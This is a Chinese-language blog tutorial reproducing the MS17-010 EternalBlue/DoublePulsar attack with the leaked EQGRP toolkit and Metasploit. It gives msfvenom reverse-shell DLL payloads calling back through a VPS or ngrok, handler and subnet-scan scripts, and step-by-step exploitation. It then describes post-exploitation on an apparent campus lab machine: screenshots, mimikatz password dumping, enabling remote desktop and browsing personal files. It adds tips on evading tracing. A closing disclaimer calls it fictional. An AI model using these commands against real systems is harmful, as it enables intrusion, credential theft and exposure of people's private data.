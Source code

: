```yaml
---
title: MS17 010 复现
date: 2017-05-13 16:49:06
tags: Metasploit
---
```


[影响范围看这里][影响范围看这里]，据说利用漏洞来勒索的病毒都有了： [NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索][NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索]

针对校内用户的解决办法：

> 关闭445 3389 等端口
  利用路由器（起到隔离作用就行），尽量不要网线直连电脑

不行，这张图我可以笑一天（233~

电子屏幕: 我只是一块显示通知的电子屏幕，我做错了什么QAQ
![电子屏幕][电子屏幕]
<br>
<!--more-->

## Requirement
1. [ngrok][ngrok]
3. [PentestBox With Metasploit][PentestBox With Metasploit] OR [Kali Linux][Kali Linux]
4. [Python2.6.6][Python2.6.6] + [pywin32][pywin32]
5. [EQGRP_Lost_in_Translation][EQGRP_Lost_in_Translation]
 
吐槽1：Win下执行0Day，却要反弹Shell到虚拟机的Kali Linux？？？
吐槽2：Kali Linux的虚拟机镜像远不如直接安装ISO稳定
吐槽3：**路由器IP（192.168.1.x）生成的Payload不能在内网（127.27.x.x）反弹Shell**

所以一会要用到ngrok，或者租个便宜服务器反弹Shell，你喜欢就好~

事实证明**PentestBox**要方便一点，记得下载含**Metasploit**的版本

<br>
## Hack This
### 配置PentestBox
删除`PentestBox\base\python`（2.7.3），然后安装2.6.6版本的Python 和 Pywin32

在`PentestBox\config` 的aliases文件里添加这么一行`python2="%pentestbox_ROOT%\base\python2\python.exe" $*`，打开PentestBox输入`python2 --version`出现版本信息代表命名成功

![python2][python2]

解压`EQGRP_Lost_in_Translation-master`，修改windows目录下的fb文件，注释掉26，27，28，72行
![26-28][26-28]
![72][72]
<br>

### 生成DLL Payload
如果直接在内网的话是可以把下面`VPS_IP`替换成自己的，但是不建议这么做，万一入侵的是**蜜罐+没清除记录+尝试风险操作+长时间在线**，很容易翻车。拿ngrok转发一下本地的端口比较保险。

但是如果内网机器不能访问外网，只能用内网IP生成Payload

x86:

    msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=VPS_IP LPORT=port --platform win -f dll -o x86_tcp.dll
x64:

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=VPS_IP LPORT=port --platform win -f dll -o x64_tcp.dll

### Msfconsole
x86.rb

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set stagerverifysslcert false
    set ExitOnSession false #后台运行
    set LHOST 192.168.1.245 # LHOST
    set LPORT 4444 #监听x86 Payload的端口
    exploit -j -z

x64.rb

    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set stagerverifysslcert false
    set ExitOnSession false
    set LHOST 192.168.1.245
    set LPORT 4445 #监听x64 Payload的端口
    exploit -j -z

开启ngrok转发
![ngrok-port][ngrok-port]
<br>
开两个窗口开始监听

    msfconsole -r x86.rb
    
    msfconsole -r x64.rb
    
![msfconsole][msfconsole]

### 确认内网目标
下载[MS17扫描模块][MS17扫描模块]的rb文件，放到`PentestBox\bin\metasploit-framework\modules\auxiliary\scanner\smb`里面

scan.rb

    use auxiliary/scanner/smb/smb_ms_17_010 #新添加的模块
    set THREADS 16
    set RHOSTS 172.27.10.1-254 #目标网段
    exploit

开始扫描目标网段
    
    msfconsole -r scan.rb

确认目标``172.27.10.21``
![target][target]

<br>
### Attack！  

    python2 fb.py
填好目标和本地IP，转发选择no，使用**Eternalblue**入侵模块
![ip][ip]
一路回车到这个地方，选择平台和攻击方式**1) FB**
![arch-fb][arch-fb]
继续回车，出现这个代表入侵成功
![Eternalblue][Eternalblue]
<br>
再使用**Doublepulsar**模块来反弹Shell，根据平台填入我们刚才生成的DLL Payload

**ProcessName一定要填写目标主机正在运行的进程名，否则会使目标主机自动关机或注销， 一般填svchost.exe**
![Doublepulsar][Doublepulsar]
<br>
一路回车后就应该能看到ngrok有转发的效果和msf成功反弹的Shell了
![ngrok-reverse][ngrok-reverse]
<br>
![Shell][Shell]
<br>

## Shell仅仅只是开始
如果有入侵经验的人一定知道我想表达什么
> 目前权限是否为SYSTEM，如果不是，该怎么提权？提权会不会引起注意？
  目标主机装有杀毒软件的时候怎么Bypass UAC拿到当前用户密码？
  要是目标主机突然关机了该如何进行下一次渗透？亦或者留下隐藏后门进行持续性控制？
  端口转发该用什么工具？使用过程是否灵活？
  拿下一台服务器权限后怎么进一步扩大战果？内网漫游怎么尽快获取域控的最高权限以便拿下整个内网？
  如何有效收集你想要的信息？ 
  如何尽可能清除入侵记录？
  。。。。。。

运气不错，目标主机（实验室的电脑）没有360，`get system`就拿到了管理员权限，看看在干嘛

    screenshot -q 100 -p F:\\Hacker\\PentestBox\\output\\test.jpeg
![screenshot][screenshot]
<br>
![screenshot2][screenshot2]
<br>
这个时间点（12:49 PM）应该不在电脑前，估计是忘记锁屏了
利用mimikatz神器拿到用户密码

    load mimikatz
    mimikatz_command -f sekurlsa::searchPasswords
![password][password]
<br>
然后`run getgui -e`开启远程桌面连接，直接连上去了

然后打开硬盘看看能收集到什么有用的信息
![班级][班级]
<br>
![上网账号][上网账号]
<br>
![sad][sad]
<br>
后台居然还挂着个百度盘。。。
![百度盘][百度盘]
<br>
![excited][excited]
<br>
**我们不开车！
我们不开车！
我们不开车！**


**----------------严肃的分割线----------------**
手机安装了百度盘客户端的，可能不小心（被）设置了手机自动备份，那么手机里面的相册，音乐，甚至是通讯录都会自动保存到百度盘。。。
![个人信息][个人信息]
<br>

## END?
每次都打这么多命令很烦的，对于我这种懒人来说，有一条法则永远通用：
        
> 如果某些事情，甚至可以说是任何事情，哪怕只需要花费他超过90 秒的时间，那他会写脚本来自动处理那些事情

嗯，我知道你们看得懂，批量扫描内网主机的任务就交给你们写了（Python可以操作CMD，多进程，加油~
![lan][lan]
<br><br>

![内网漫游][内网漫游]
<br>
**以上全部的入侵内容都是我编的，入侵操作仅在本地虚拟机进行，切勿违法使用**

    最近沉迷Powershell提权（Bypass UAC，后门持续控制）和BadUSB无法自拔。后续文章更新等放假再说吧
**Shell仅仅只是开始。。。**

<br><br>
> **这个打赏二维码好像有什么不对**

**支付宝** 
![支付宝][支付宝]
**微信**  
![微信][微信]
[支付宝]: https://of4jd0bcc.qnssl.com/Blog/%E6%89%93%E8%B5%8F/alipay/shakalaka_ailipay.gif?imageView2/1/w/200/h/200
[微信]: https://of4jd0bcc.qnssl.com/Blog/%E6%89%93%E8%B5%8F/wechat/patapon_wechat.gif?imageView2/1/w/200/h/200

[影响范围看这里]: https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
[NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索]: http://www.leiphone.com/news/201705/iGXUMArn1cP1livY.html
[电子屏幕]: https://of4jd0bcc.qnssl.com/smb/%E7%94%B5%E5%AD%90%E5%B1%8F%E5%B9%95.png
[ngrok]: https://github.com/inconshreveable/ngrok
[Metasploit]: https://github.com/rapid7/metasploit-framework
[Python2.6.6]: https://www.python.org/download/releases/2.6.6/
[pywin32]: https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/
[PentestBox With Metasploit]: https://pentestbox.org/
[Kali Linux]: https://www.kali.org/
[EQGRP_Lost_in_Translation]: https://github.com/x0rz/EQGRP_Lost_in_Translation
[python2]: https://of4jd0bcc.qnssl.com/smb/python2.png
[26-28]: https://of4jd0bcc.qnssl.com/smb/26-28.png
[72]: https://of4jd0bcc.qnssl.com/smb/72.png
[ngrok]: https://of4jd0bcc.qnssl.com/smb/ngrok.png
[msfconsole]: https://of4jd0bcc.qnssl.com/smb/msfconsole.png
[MS17扫描模块]: https://github.com/RiskSense-Ops/MS17-010/tree/master/scanners
[target]: https://of4jd0bcc.qnssl.com/smb/target.png
[ip]: https://of4jd0bcc.qnssl.com/smb/ip.png
[arch-fb]: https://of4jd0bcc.qnssl.com/smb/arch-fb.png
[Eternalblue]: https://of4jd0bcc.qnssl.com/smb/Eternalblue.png
[Doublepulsar]: https://of4jd0bcc.qnssl.com/smb/Doublepulsar.png
[ngrok-reverse]: https://of4jd0bcc.qnssl.com/smb/ngrok-reverse.png
[Shell]: https://of4jd0bcc.qnssl.com/smb/Shell.png
[screenshot]: https://of4jd0bcc.qnssl.com/smb/screenshot.jpg
[screenshot2]: https://of4jd0bcc.qnssl.com/smb/screenshot2.jpg
[password]: https://of4jd0bcc.qnssl.com/smb/password.png
[班级]: https://of4jd0bcc.qnssl.com/smb/%E7%8F%AD%E7%BA%A7.png
[上网账号]: https://of4jd0bcc.qnssl.com/smb/%E4%B8%8A%E7%BD%91%E8%B4%A6%E5%8F%B72.png
[sad]: https://of4jd0bcc.qnssl.com/smb/sad.png?imageView2/1/w/200/h/200
[excited]: https://of4jd0bcc.qnssl.com/smb/excited2.png
[百度盘]: https://of4jd0bcc.qnssl.com/smb/%E7%99%BE%E5%BA%A6%E7%9B%98.png
[个人信息]: https://of4jd0bcc.qnssl.com/smb/%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF.png
[内网漫游]: https://of4jd0bcc.qnssl.com/smb/%E5%86%85%E7%BD%91%E6%BC%AB%E6%B8%B8.png
[lan]: https://of4jd0bcc.qnssl.com/smb/lan.png